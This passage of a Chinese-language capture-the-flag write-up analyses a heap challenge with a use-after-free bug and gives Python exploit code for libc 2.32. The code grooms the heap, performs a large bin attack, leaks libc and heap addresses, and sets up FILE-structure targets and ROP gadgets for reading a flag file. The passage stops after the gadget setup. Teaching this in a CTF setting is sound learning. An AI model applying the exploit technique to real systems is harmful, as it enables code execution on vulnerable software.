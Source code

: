    * add --> 0x1       (index(一字节),size(两字节))
   * delete --> 0x2 （index（一字节））
   * show --> 0x3   （index（一字节））
   * edit --> 0x4      （index（一字节），data_size（两字节），data（data_size个字节））
   * return --> 0x5

3. 按照上面分析出来的结构建立下面的结构体，delete和show公用一个：

   ![image-20240906182229803](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061822868.png)

4. 分析函数，add函数限制了size大小，delete函数存在UAF漏洞，edit函数本身没有溢出：

   ![image-20240906182350378](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061823469.png)

#### 利用： 本地用的时libc2.32 解题

1. 先泄漏libc地址 和 堆地址，同时完成第一次large bin attack攻击：

   ```python
   # 泄漏libc
   add(0x4b0,15)    #15 隔开
   add(0x480,0)    #0
   add(0x4b0,15)    #15 隔开
   edit(15,b"./flag\x00")
   add(0x4a0,1)    #1
   add(0x4b0,15)    #15
   add(0x470,2)    #2
   add(0x4b0,15)    #15 隔开
   run()
   
   
   free(1)
   add(0x4b0,15)    #15 将chunk1放入large bin
   show(1)
   run()
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - 0x1E4010
   success("libc_addr==>"+hex(libc_base))
   
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
   stderr_addr = libc_base + libc.sym["stderr"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"+ hex(IO_wfile_jumps_addr))
   success("stderr_addr==>"        + hex(stderr_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   
   pop_rdi_ret=libc_base + 0x000000000002858f
   pop_rdx_r12_ret=libc_base + 0x0000000000114161
   pop_rax_ret=libc_base + 0x0000000000045580
   pop_rsi_ret=libc_base + 0x000000000002ac3f
   ret= libc_base + 0x0000000000026699
   ```